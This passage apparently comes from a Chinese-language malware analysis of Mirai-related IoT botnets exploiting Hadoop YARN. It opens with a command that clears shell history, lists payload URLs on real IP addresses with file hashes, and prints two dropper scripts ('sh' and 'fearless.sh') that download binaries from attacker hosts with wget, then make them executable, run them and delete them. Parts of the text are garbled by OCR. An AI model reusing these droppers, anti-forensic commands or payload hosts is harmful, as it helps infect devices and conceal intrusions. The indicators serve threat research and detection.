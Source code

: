 ```
history -c;
unset history;history -w*
```

# *恶意软件动物园*

*表(*1)中的 Hadoop YARN 漏洞提供了一个真实的 Linux 物联网恶意软件动物园——大多数二进制文件都与 Mirai 未来组合相关——这并不奇怪…*

*仍处于活动状态的链接:*

```
*[http://167.88.161[.]40/yarn.x86](http://167.88.161.40/yarn.x86)
 2eab746dea07b3b27fb6582ee100a7ee732d7980012652da6d705f4e90c4196b yarn.x86 
[http://185.244.25[.]150/bins/otaku.x86](http://185.244.25.150/bins/otaku.x86)
 34ee8efb22814660dd7d2a4d1219b73fd1a2c4ba63ef99020f135980551419b5 otaku.x86 
http://185.244.25[.]163/8×868
 a5beb685f7847009485b94cc7f91eb16254ccd681c60cec5928f5a22c23acb55 8×868 
[http://185.244.25[.]222/x86](http://185.244.25.222/x86)
 4b18997cc8fa26092d3b6de7fce637a4bc80a9c35997248035208144108c6ebd x86 
[http://185.244.25[.]251/x86](http://185.244.25.251/x86)
 33f54d0afccfdc0a8b0428d7a1fca20079fe760b21e3750e31a8cba1b862e104 x86 
[http://167.99.51[.]231/x86](http://167.99.51.231/x86)
 83777b500163259e9e1b7a4801b5c3ad48708511b1c2b7573e344985011396c6 x86 
[http://46.17.47[.]198/bins/kowai.x86](http://46.17.47.198/bins/kowai.x86)
 1a447b4e33474e693517a5a1b26e18c5a0dc8de3e92b57f2402f098218327c60 kowai.x86http://94.177.231[.]48/sh
$ cat sh
#!/bin/sh

binarys="mips mpsl arm arm5 arm6 arm7 sh4 ppc x86 arc"
server_ip="94.177.231.48"
binname="miori"
execname="loliloli"

for arch in $binarys
do
    cd /tmp
    wget http://$server_ip/$binname.$arch -O $execname
    #tftp -g -l $execname -r $binname.$arch $server_ip
    chmod 777 $execname
    ./$execname
    rm -rf $execname
done
$ wget http://94.177.231[.]48/miori.x86 

8e7e65105dfa629d695f63c41378f9f10112641a8f5bb9987b1a69b2c7336254  miori.x86http://46.29.165.143/fearless.sh
#!/bin/bash
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://46.29.165[.]143/fearlessntpd; chmod +x fearlessntpd; ./fearlessntpd; rm -rf fearlessntpd
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://46.29.165[.]143/fearlesssshd; chmod +x fearlesssshd; ./fearlesssshd; rm -rf fearlesssshd
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://46.29.165[.]143/fearlessopenssh; chmod +x fearlessopenssh; ./fearlessopenssh; rm -rf fearlessopenssh
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://46.29.165[.]143/fearlessbash; chmod +x fearlessbash; ./fearlessbash; rm -rf fearlessbash
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://46.29.165[.]143/fearlesstftp; chmod +x fearlesstftp; ./fearlesstftp; rm -rf fearlesstftp
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://46.29.165[.]143/fearlesswget; chmod +x fearlesswget; ./fearlesswget; rm -rf fearlesswget
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://46.29.165[.]143/fearlesscron; chmod +x fearlesscron; ./fearlesscron; rm -rf fearlesscron
```